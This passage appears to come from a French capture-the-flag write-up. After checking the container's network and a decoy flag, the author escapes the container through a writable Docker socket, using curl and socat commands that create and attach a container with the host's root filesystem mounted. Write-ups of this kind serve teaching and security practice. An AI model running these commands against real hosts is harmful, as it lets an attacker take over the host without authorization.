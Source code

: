 ```bash
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.17.0.0/16 2 0 2
        +-- 172.17.0.0/30 2 0 2
           |-- 172.17.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.17.0.2
              /32 host LOCAL
        |-- 172.17.255.255
           /32 link BROADCAST
```

L'utilisateur root a un fichier `flag.txt` lisible mais il n'y a rien d'intéressant :

```bash
harrison@harrison:/home/harrison$ cat /root/flag.txt
Nope. No flags here. Where do you think you are?
```

## The escapist

Bien que l'on ne soit pas root et que je ne vois pas de méthodes particulières de le devenir sur ce container, j'ai tout de même un accès en écriture sur `/var/run/docker.sock`.

Je peux me baser sur la méthodologie présente sur [Linux Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-docker-socket) qui consiste à envoyer des requêtes HTTP sur le fichier socket en l'absence des commandes Docker :

```bash
harrison@harrison:/home/harrison$ curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1555615921,"Id":"sha256:6275c2bd4f72c6c417458fa6caecf2bc23bf823298650334c3c3bd42579aa95f","Labels":null,"ParentId":"sha256:48023286ce2db59417c29372f464aa5423a18d583f925c6173d205ccccc3df1f","RepoDigests":null,"RepoTags":["cont1:v1"],"SharedSize":-1,"Size":345807155,"VirtualSize":345807155},{"Containers":-1,"Created":1552350017,"Id":"sha256:94e814e2efa8845d95b2112d54497fbad173e45121ce9255b93401392f538499","Labels":null,"ParentId":"","RepoDigests":["ubuntu@sha256:017eef0b616011647b269b5c65826e2e2ebddbe5d1f8c1e56b3599fb14fabec8"],"RepoTags":["ubuntu:latest"],"SharedSize":-1,"Size":88908191,"VirtualSize":88908191}]
harrison@harrison:/home/harrison$ curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"sha256:6275c2bd4f72c6c417458fa6caecf2bc23bf823298650334c3c3bd42579aa95f","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
{"Id":"bbb0103221a88b370f654897c3b7d18c9621c32cdc3f66fab898ae3c6fad482d","Warnings":null}
harrison@harrison:/home/harrison$ curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/bbb0103221a88b370f654897c3b7d18c9621c32cdc3f66fab898ae3c6fad482d/start
harrison@harrison:/home/harrison$ socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/bbb0103221a88b370f654897c3b7d18c9621c32cdc3f66fab898ae3c6fad482d/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp

HTTP/1.1 101 UPGRADED
Content-Type: application/vnd.docker.raw-stream
Connection: Upgrade
Upgrade: tcp

id
```
